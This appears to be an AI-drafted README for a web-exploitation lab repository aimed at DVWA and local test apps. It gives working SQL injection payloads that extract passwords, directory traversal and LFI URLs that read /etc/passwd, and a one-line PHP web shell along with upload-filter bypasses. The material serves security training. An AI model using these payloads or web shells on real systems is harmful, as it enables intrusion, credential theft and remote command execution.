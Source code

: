 Here's a structured and detailed README.md file for this web exploitation project. I've broken down each concept into sections, provided clear headings, and used formatting to make it both informative and visually engaging.  

---

```markdown
# Web Exploitation Techniques

This repository contains a collection of web exploitation techniques focused on SQL Injection, Directory Traversal, Local File Inclusion, and File Upload Vulnerabilities. The examples and commands provided here can be used for ethical hacking and testing of web application vulnerabilities in controlled environments.

## Table of Contents
1. [Broken Access Control](#broken-access-control)
2. [SQL Injection (SQLi) Examples](#sql-injection-sqli-examples)
3. [Directory Traversal](#directory-traversal)
4. [File Inclusion](#file-inclusion)
5. [File Upload Vulnerabilities](#file-upload-vulnerabilities)

---

## 1. Broken Access Control

### Docker Command
To list running Docker containers:
```bash
sudo docker container ps
```

### SQL Injection in Broken Access Control
Performing SQL injection on the DVWA platform to test access control vulnerabilities.

#### Basic Payload
```sql
GET /vulnerabilities/sqli/?id=' OR 1=1 #
```

- **Convert special characters to URL encode** for proper injection.
- Use the `Ctrl+U` shortcut to view the source code for insights.

#### DVWA SQL Injection Examples
- **Low Security Level**:
  ```sql
  Payload: ' OR 1=1 #
  Password Extraction: ' UNION SELECT user, password FROM users #
  ```
- **Medium Security Level**:
  ```sql
  Payload: 1 OR 1=1 #
  Password Extraction: 1 UNION SELECT user, password FROM users #
  ```

#### SecureBank SQL Injection Examples
- **Union-based SQLi for Table Enumeration**:
  ```sql
  ' UNION SELECT * FROM Transactions --
  ```
- **Retrieving Specific Information**:
  ```sql
  ' UNION SELECT 10, 'string', 'string', '02/24/2024', 'string', 1, 'string' FROM Transactions --
  ' UNION SELECT 10, 'string', 'string', '02/24/2024', 'string', 1, @@version FROM Transactions --
  ```

---

## 2. Directory Traversal

### Extracting Files via Directory Traversal
```bash
tar -xvf apache-tomcat-8.5.99.tar.gz
./catalina.sh run  
```

Use `wfuzz` to test file paths:
```bash
python3 -m venv venv
. venv/bin/activate
wfuzz -w wordlist http://localhost:1337/dynamic-app1/?FUZZ=test
```

**Example**: Accessing a hidden file:
```url
http://localhost:1337/dynamic-app1/?file=../../../secret.txt
```

### Code Explanation (Directory Traversal Vulnerability)
1. **Retrieve File Parameter**:
   ```java
   String file = request.getParameter("file");
   ```
2. **File Null Check**:
   ```java
   if (file == null) { /* Execute fallback code */ }
   ```
3. **Construct Full File Path**:
   ```java
   Path path = Paths.get(getServletContext().getRealPath("/") + "/" + file);
   ```
4. **Read File Contents**:
   ```java
   byte[] data = Files.readAllBytes(path);
   String s = new String(data, StandardCharsets.UTF_8);
   out.println(s);
   ```

---

## 3. File Inclusion

### Local File Inclusion (LFI)
Retrieve sensitive files using Local File Inclusion.

```url
http://localhost/vulnerabilities/fi/?page=../../../../../../../../../etc/passwd
```

### PHP Filters for LFI
1. Encode files in base64 to view sensitive data:
   ```url
   http://localhost/vulnerabilities/fi/?page=php://filter/convert.base64-encode/resource=../../../../../etc/passwd
   ```

   Decode the base64 string to get the `/etc/passwd` content.

---

## 4. File Upload Vulnerabilities

### Level 1 - Unrestricted File Upload
1. **Create a PHP shell script**:
   ```php
   <?php system($_REQUEST['cmd']); ?>
   ```
2. **Execute commands via URL**:
   ```url
   http://localhost:7070/uploads/level1-thumbnail.php?cmd=whoami
   ```

### Level 2 - File Extension Check Bypass
1. Intercept the upload request using a tool like Burp Suite.
2. Change `Content-Type` from `application/x-php` to `image/png`.
3. **Execute Commands**:
   ```url
   http://localhost:7070/uploads/level2-thumbnail.php?cmd=whoami
   ```

### Level 3 - Image File Check Bypass
1. **Modify Image File Header**:
   Use a PHP payload in the first part of an image file to bypass checks.
2. **Execute Commands**:
   ```php
   <?php system($_REQUEST['cmd']); ?>
   ```

---

### Important Notes
- Always validate and sanitize user inputs to prevent vulnerabilities.
- Use tools like **wfuzz** for fuzzing and **Burp Suite** for intercepting requests.
- **Convert special characters to URL encoding** where necessary.
  
### Disclaimer
These techniques are for educational purposes and should only be used in authorized environments. Unauthorized access or testing without permission is illegal.

--- 

### References
- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [OWASP File Inclusion](https://owasp.org/www-community/attacks/Path_Traversal)

```

This README should help with clarity, easy navigation, and adherence to ethical usage of these techniques. Let me know if there are any additional sections or if you'd like further elaboration on specific parts!
